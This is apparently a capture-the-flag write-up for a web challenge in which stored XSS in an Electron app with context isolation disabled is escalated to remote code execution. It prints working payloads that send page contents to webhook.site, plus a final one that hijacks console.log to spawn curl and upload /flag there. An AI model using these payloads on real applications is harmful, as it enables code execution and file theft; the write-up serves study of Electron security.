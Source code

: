 ```yaml
---
created: 2024-06-21T22:48
updated: 2024-06-23T19:24
tags:
  - fav
  - web
---
```


# Elec
## Analysis

- Seems to be XSS, but the flag is stored on the file system `/flag`.
- It's an electron app
## Probing

First let's prob it with a bunch of XSS payloads, check fields on `window` etc.

To prevent the script from running on my own computer, I've set a `localStorage` item called `no-go`.

```html
<img src =q onerror="if(!localStorage.getItem('no-go')){
					 window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+document.body.innerHTML.replace(/\s+/g,'');},1000)
	 });}">

<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+JSON.stringify(Object.keys(window));},1000)
	 });">
	 
<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {try{
	const replaceWithTypes = obj => Object.fromEntries(Object.entries(obj).map(([k, v]) => [k, [typeof v, typeof v === 'function'?v.toString():v]]));
	location='https://webhook.site/?w='+JSON.stringify(replaceWithTypes(window.__Process$));
	}catch(e){
location='https://webhook.site/?w='+String(e);
}});">
```

```html
<navclass="mb-3navbarnavbar-expand-lgbg-body-tertiary"><divclass="container"><aclass="navbar-brand"href="/">Blog</a></div></nav><divclass="container"><h1class="mb-3">w</h1><divid="content"class="mb-3"><imgsrc="q"onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load',async()=>{setTimeout(()=>{location='https://webhook.site/?w=' document.body.innerHTML.replace(/\s /g,'');},1000)});"></div><formmethod="post"action="/report/cccc208b-9e06-4ed5-8ff3-35ebe90fa330"><buttontype="submit"class="btnbtn-secondary">Report</button></form></div><footerid="admin-footer"class="mt-3p-3bg-light"><divclass="container">Adminconsole<spanid="app-version">0.0.1</span>,Node.js<spanid="node-version">20.11.1</span>,Chromium<spanid="chrome-version">124.0.6367.230</span>,Electron<spanid="electron-version">30.0.8</span>,<spanid="kernel-info">Linux74e6f3ed79eb6.1.92-99.174.amzn2023.x86_64
```

Other than that, nothing interesting.

> `window.__Process$` was just a dummy `process` object with no real use.

---
## Electron RCE

```js
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```

With some googling I found out that `contextIsolation: false` means the renderer runs in the same context, so I am actually running on node's context.

> Failed attempt on prototype pollution
> Tried to pollute `options.shell` `options.file` etc, didn't work.

## Final Solution

```html
<img src =q onerror="if (!localStorage.getItem('no-go')) {
    let s = [];
  	console.log = (cp) => {
	  	if(!cp.spawnfile) return;
	  	const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
		s.push('yay!')
  	};
    window.addEventListener('load', async () => {
        setTimeout(() => {
            let p = (new URLSearchParams({
                kernal: document.getElementById('kernel-info').textContent,
                logs: JSON.stringify(s),
                body: document.body.innerHTML.replace(/\s+/g, ' '),
            })).toString();
            location = 'https://webhook.site/?' + p.toString();
        }, 1000)
    });
}">
```

### Explanation

In `preload.js`

```js
...
const cp = spawn("uname", ["-a"]);
console.log(cp);
...
```

We can see that the child process object is sent to `console.log`, which we can take control over.

So we now have access to `cp`, we will create a new child process object with the command we want to run, and that is `curl`.

```js
const cp2 = new cp.constructor();
cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@flag', 'https://webhook.site/'] });
```

### Simplified

```html
<img src =q onerror="{
	console.log = (cp) => {
		if(!cp.spawnfile) return;
		const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
	};
}">
```

```
FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
```
